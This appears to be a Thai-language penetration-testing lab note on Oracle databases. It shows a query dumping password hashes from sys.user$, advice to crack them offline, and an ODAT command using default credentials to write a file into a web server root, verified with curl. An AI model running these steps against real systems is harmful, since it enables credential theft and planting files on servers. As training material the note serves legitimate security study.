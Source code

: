 ```sql
SQL> select name, password from sys.user$;

NAME        PASSWORD
----------- ------------------------------
SYS         FBA343E7D6C8BC9D
SYSTEM      B5073FE1DE351687
OUTLN       4A3BA55E08595C81
...
```

**การนำไปใช้:**
- นำ password hashes ไป crack แบบ offline
- ใช้เครื่องมืออย่าง John the Ripper หรือ Hashcat

## การอัปโหลดไฟล์ (File Upload)

### เส้นทาง Web Root ตามระบบปฏิบัติการ

| ระบบปฏิบัติการ | เส้นทาง |
|----------------|---------|
| **Linux** | `/var/www/html` |
| **Windows** | `C:\inetpub\wwwroot` |

### ทดสอบการอัปโหลด

**1. สร้างไฟล์ทดสอบ:**
```bash
echo "Oracle File Upload Test" > testing.txt
```

**2. อัปโหลดด้วย ODAT:**
```bash
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba \
  --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**ผลลัพธ์:**
```
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory
```

**3. ตรวจสอบด้วย curl:**
```bash
curl -X GET http://10.129.204.235/testing.txt
```

**ผลลัพธ์:**
```
Oracle File Upload Test
```

✅ **สำเร็จ!** สามารถอัปโหลดไฟล์ได้

## ขั้นตอนการโจมตีโดยสรุป
